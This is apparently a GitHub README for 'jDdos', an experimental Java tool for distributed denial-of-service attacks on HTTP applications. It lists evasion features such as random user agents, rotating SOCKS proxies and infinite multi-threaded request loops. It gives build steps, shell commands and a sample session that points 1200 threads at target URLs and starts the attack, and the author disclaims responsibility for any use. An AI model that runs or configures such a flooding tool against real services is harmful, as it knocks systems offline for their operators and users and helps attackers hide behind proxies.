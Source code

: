 # jddos
Experimental Java based dDos tool
---

jDdos is dDos script that targets HTTP based applications. This script is written in Java and it's only experimental so **I do not take responsiblities for any usages**, you might use it at your own risks.


## Main features

- HTTP GET and POST (only json) support
- Accepts multiple threads
- Configurable headers
- Automatically adds random user agent to headers
- Accepts and forces you to use SOCKS proxy
- Can read list of SOCKS proxy from url
- Configurable number of threads running the attack.
- Distributed different proxies to between requests. Distributed requests between threads.
- Can run infinite attack until told to stop
- Configurable sleep time between request from each service (Default is random)
- Uses **Spring Shell**, therefore its easy to write an attack script and copy it into several machines


## RUN

First build the project

    mvn clean package -DskipTests

Run it

    cd target/
    ./jdDos.java

List commands

    help

Commands:

    add-get-request: Adds get request for attack
    add-header: Adds header
    add-post-request: Adds post request for attack
    add-proxy: Adds proxy - example => 127.0.0.1:9050
    clean: Cleans attack settings
    explain: Explains current config
    read-proxy-list: Reads proxy list from url
    running: Makes infinite running threads, default is false
    set-sleep: Sets exact sleep time between infinte loop of each thread. Default = 0 (Random sleep time)
    start: Runs jdDos attack
    stop: Stops jdDos attack
    threads: Sets threads count

Example:

    shell:>add-proxy 127.0.0.1:9050
    2019-03-29 21:20:00.123  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>add-get-request http://myaddress.com/do.php
    2019-03-29 21:20:53.384  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>add-post-request --address http://myaddress.com/post.php --data {\"name\":\"something\"}
    2019-03-29 21:23:10.567  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>add-header --key Cookie --value "my session"
    2019-03-29 21:23:45.545  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>threads 1200
    2019-03-29 21:25:21.474  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : done
    
    shell:>explain
    Addresses: 
    600 threads will make request to http://myaddress.com/do.php
    600 threads will make request to http://myaddress.com/post.php
    Proxies: 
    127.0.0.1:9050
    Infinite requests: true
    Sleep time is infinite
    Total threads count: 1200
    
    shell:>start
    2019-03-29 21:26:15.858  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.858  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.930  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.930  INFO 9330 --- [main] o.s.s.concurrent.ThreadPoolTaskExecutor  : Initializing ExecutorService
    2019-03-29 21:26:15.980  INFO 9330 --- [main] gh.sep.attacks.jdDos.Commands            : Attack started

To skip writing all commands each time, create a file named `scripts.txt` for example and enter all the commands in right order.
Then start `jdDos` and enter:

    script --file /address/to/scripts.txt

Your attack configuration will load into the application.

